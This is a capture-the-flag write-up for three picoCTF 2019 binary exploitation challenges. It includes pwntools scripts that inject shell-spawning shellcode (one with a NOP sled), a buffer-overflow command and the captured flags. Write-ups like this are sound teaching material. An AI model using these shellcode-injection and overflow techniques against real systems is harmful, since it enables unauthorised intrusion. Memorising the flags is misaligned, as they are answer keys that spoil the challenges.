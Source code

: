 # PICO CTF (2019)<a name="picoctf19"></a>

***

| Problem | Category | Points |
| ------- | -------- | ------ | 
| [Handy Shellcode](#handyshellcode) | Binary Exploitation | 50 | 
| [Slippery Shellcode](#slipperyshellcode) | Binary Exploitation | 200 |

***

## HANDY SHELLCODE <a name="handyshellcode"></a>

> ### Problem 
>> This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? 
>> You can find the program in /problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6 on the shell server.
>
> ### Solution
>> The solution here is pretty straightforward. All you need to do is supply the program with shellcode
>> and it will execute it. A simple pwntools script using `shellcraft.sh()` as the payload can get this done.

~~~python
#!/usr/bin/env python

from pwn import *

context.clear(os='linux', arch='i386')
context.log_level = 'info'

s = ssh(host='2019shell1.picoctf.com', user='User', password='Pa$$w0rd')

io = s.process('vuln',cwd='/problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6')

shellcode = asm(shellcraft.sh())

payload = shellcode

print io.recv()
io.sendline(payload)

print io.recv()
io.sendline('cat flag.txt')

print io.recv()

~~~

**FLAG:** *picoCTF{h4ndY_d4ndY_sh311c0d3_707f1a87}*

***

## SLIPPERY SHELLCODE <a name="slipperyshellcode"></a>

> ### Problem 
>> This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? 
>> You can find the program in /problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1 on the shell server.
>
> ### Solution
>> In this challenge we again need to supply the program with shellcode using `shellcraft.sh()`. The source code
>> reveals that this time, the program will begin execution of the shellcode from a random location within a 256 
>> byte range. To make sure that we execute our code, all that needs to be done is to supply an 'x\90' NOP sled
>> that's 256 bytes long directly preceding the shellcode. This can be done with the following pwntools script.

~~~python
#!/usr/bin/env python

from pwn import *

context.clear(os='linux', arch='i386')
context.log_level = 'info'

s = ssh(host='2019shell1.picoctf.com', user='User', password='Pa$$w0rd')

io = s.process('vuln',cwd='/problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1')

padding = '\x90' * 256
shellcode = asm(shellcraft.sh())

payload = padding + shellcode

print io.recv()
io.sendline(payload)

print io.recv()
io.sendline('cat flag.txt')

print io.recv()
~~~

**FLAG:** *picoCTF{sl1pp3ry_sh311c0d3_5a0fefb6}*

***
## OVERFLOW 0<a name="overflow0"></a>

> ### Problem
>> This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in 
>> /problems/overflow-0_1_54d12127b2833f7eab9758b43e88d3b7 on the shell server. [source] ()

> ##  Solution
>> After looking at the program, you can tell that it checks to see if `argv[]` is greater or less than the buffer. If it is, then it prints the flag file.
>> So all we have to do is call `./vuln` with more than 64 arguments.
~~~bash
kali@kali:~/ctf/pico/overflow0$ ssh User@2019shell1.picoctf.com 'cd /problems/
overflow-0_1_54d12127b2833f7eab9758b43e88d3b7; ./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
~~~

**FLAG:** *picoCTF{3asY_P3a5yb197d4e2}*

***
